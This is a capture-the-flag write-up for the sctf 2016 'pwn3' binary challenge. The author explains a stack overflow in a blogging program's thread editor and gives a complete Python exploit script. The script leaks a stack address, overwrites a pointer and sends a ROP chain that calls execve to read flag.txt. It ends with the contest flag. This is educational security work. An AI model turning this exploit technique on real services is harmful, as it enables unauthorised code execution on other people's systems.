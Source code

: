 ## pwn3 - 160 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
A nice, simple blogging system. Have fun!
`nc problems2.2016q1.sctf.io 1339`

### Hint ###
If nobody can figure it out, I'll consider giving a hint ;)

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on `/bin/cat flag.txt`

### Details ###

This program had a way bigger vulnerable function than the rest so I won't be putting it in here, but the jist is that it had a menu for adding, editing, and printing "threads".

The vulnerability lies within the editing of a thread as they are placed on the stack in a more memory efficient way which allows for overwrites of following threads.

Once two threads have been created the first one can be edited to have more info than previously contained, this will overwrite the id and next pointer and potentially more of the data of the thread. 

However my exploit is dependant on the stack pointer so I made a script to be able to grab the stack pointer when the first next address is printed from the list of threads. Every other stack address is calculated relative to that.

Heres my commented solve script:

```python
rop = ''

import struct
def get_addr(addr):
	return struct.pack('<L', addr)

import socket

# My local first address, for testing.
first_addr = 0xffff45d0

# Let's sploit
sock = socket.socket()
sock.connect(('problems2.2016q1.sctf.io', 1339))

wr = sock.send
sock.recv(8192)
sock.recv(8192)
print 'writing'
# Create two threads.
wr('1\nad\nasd\nasd\n1\nasd\nasd\nasd\n')
sock.recv(8192)
wr('3\n')
sock.recv(8192)

# Get the stack ptr
outpt = str(sock.recv(8192))
print outpt
adr = outpt.find(': 0x')
outpt = outpt[adr+4:outpt.find('\n',adr)]
print outpt
first_addr = int(outpt,16)

# Set the next ptr of the second thread.
wr('2\n0\nAAAAAAB' + get_addr(first_addr - (0xffff45d0-0xffff4060) - (0x65)) + '\n')
print sock.recv(8192)

# To avoid getting carpal tunnel from writing 'get_addr' so many times
ga = get_addr

# Rop equivalent of a nop sled to allow the code after the fgets
# to write to some memory in the .bss section
rop += (ga(0x806f511) + (ga(0x80ec170) + ga(0x80ec169)))*5

# Write "/bin/cat",0,"flag.txt",0 somewhere
CAT = '/bin/cat\0'
FLAGTXT = 'flag.txt\0'
MEM = CAT+FLAGTXT
BIN_SH = 0x80ec190
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH) + ga(len(MEM)+1) + ga(0x80eb360)

MEM += ga(BIN_SH) + ga(BIN_SH+len(CAT)) + ga(0)
rop += ga(0x804fbf0) + ga(0x8049408) + ga(BIN_SH-13) + ga(13) + ga(0x80eb360)

# Set eax to oxb
rop += ga(0x80bb926) + ga(0xb)
# Set ecx and ebx
rop += ga(0x806f511) + ga(BIN_SH-13) + ga(BIN_SH)

# Set edx to some shit
rop += ga(0x806f4ea) + ga(0x80ec0b0)

# int 0x80
rop += ga(0x806fbc0)

# Add another thread so that the thread count is 3 and we can edit the third thread (pointed to by our modified next pointer) and rop chain.
wr('1\na\nd\nasd\n')
wr('2\n8\n' + rop + '\n')
wr(MEM + '\n')

# Get all the output from the server.
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)
print sock.recv(8192)
```

Some other notes:

I wrote my code to exploit the return address of the edit thread function rather than the menu, this is so that I have less worries about the space on the stack and also I don't need to worry about the stack cookie if I'm off by a few bytes (I do really shite arithmetic).

Running that script alone will garner the flag.

Sorry for the kinda lack of analysis, the function is just massive and I don't want to bloat the write up size, if you download the binary the function is `menu()` and theres just a huge buffer for threads on the stack.

### Flag ###

The flag is `sctf{h34p_0n_th3_st4ck_EZPZ}`
